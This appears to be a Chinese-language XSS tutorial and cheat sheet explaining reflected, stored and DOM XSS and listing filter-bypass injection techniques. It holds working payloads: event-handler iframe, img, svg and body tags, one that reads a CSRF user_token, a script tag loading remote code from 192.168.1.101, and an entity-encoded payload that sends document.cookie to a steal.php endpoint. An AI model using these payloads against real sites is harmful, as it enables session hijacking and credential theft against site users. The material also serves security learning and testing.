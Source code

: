 反射性xss 利用脚本与服务器交互，绕过限制

DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。

简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

DOM型XSS是前端代码中存在了漏洞，而反射型和存储型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### xss危害

获取到用户的cookie信息或者劫持用户跳转到钓鱼网站
 

### 专用扫描工具

XSSER,XSSF等

工具扫描效率高存在误报，不如手动扫描准确。

### xss利用


#### 注入方式

1双写绕过

2大小写混淆绕过

3虽然无法使用```<script>```标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

	<iframe src=1 onload='alert(1)' /><iframe>

	<iframe src=1 onmouseover=alert('xss') y=2016 /><iframe>
	
	<iframe src="../csrf" onload='alert(frames[0].document.getElementsByName("user_token")[0].value)'>

	<img src=1 onerror=alert(/xss/)>

	<body onload='alert(/xss/)'</body>

	<svg onload=alert("xss")>
	
```

4 dom xss 注入

4.1 标签闭合  （会破坏页面结构，隐蔽性不如注释方法）

```></option></select><img src=1 onerror=alert('hack')>```

```</option></select><svg onload=alert("xss")>```
 
4.2  注释

``` #<script src=http://192.168.1.101:808/b.js></script>``` 
\#会注释掉，后面的内容不会发送到后台

5. 存储型和反射型xss

为了绕过  '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'  正则，

可将插入代码中的i进行html字符实体编码以绕过正则

```<img src=# onerror=(locat&#x69;on.href="http://192.168.1.101:8081/steal.php?data="+document.cookie)>```

```